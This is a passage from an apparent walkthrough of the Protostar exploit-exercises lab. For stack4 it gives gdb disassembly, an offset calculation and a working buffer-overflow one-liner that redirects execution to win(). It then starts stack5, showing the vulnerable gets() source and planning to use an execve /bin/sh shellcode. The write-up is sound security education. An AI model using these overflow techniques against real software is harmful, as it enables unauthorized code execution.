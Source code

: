 We know that `buffer` starts at `$esp + 0x10`. This means that we need to write
76 (`(0xbffff788 + 4) - (0xbffff730 + 0x10)`) bytes plus the 4 bytes we want
`$eip` to be at after the `ret` instruction.

In the disassembly of `win()`, we see that the function starts at `0x080483f4`.

```shell
(gdb) disass win
Dump of assembler code for function win:
0x080483f4 <win+0>:     push   %ebp
0x080483f5 <win+1>:     mov    %esp,%ebp
0x080483f7 <win+3>:     sub    $0x18,%esp
0x080483fa <win+6>:     movl   $0x80484e0,(%esp)
0x08048401 <win+13>:    call   0x804832c <puts@plt>
0x08048406 <win+18>:    leave
0x08048407 <win+19>:    ret
End of assembler dump.
```

Putting it all together,

```shell
user@protostar:~$ python -c "print 'A' * 76 + '\xf4\x83\x04\x08'" | /opt/protostar/bin/stack4
code flow successfully changed
Segmentation fault
```

The program segfaults after executing `win()` because the stack is messed up
when it tries to `ret` from the function. However, this generally does not pose
a problem for exploitation.

# stack 5

We are given the below source code.

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

This is pretty similar to the previous level except that our goal here is to
execute [shellcode][wikipedia-shellcode]. As writing shellcodes is beyond the
scope of this exercise, we will use a `execve /bin/sh` shellcode from
[exploit-db.com][exploit-db-13357]. Due to the fact that we are reading input
using `gets()`, we pick this particular shellcode because it re-opens `stdin`.
A normal `execve /bin/sh` shell code will simply exit after running `/bin/sh`.


[exploit-exercises]: https://exploit-exercises.com
[nebula-writeup]: 2018-01-01-nebula-walkthrough
[wikipedia-endianness]: https://en.wikipedia.org/wiki/Endianness
[wikipedia-shellcode]: https://en.wikipedia.org/wiki/Shellcode
[exploit-db-13357]: https://www.exploit-db.com/exploits/13357/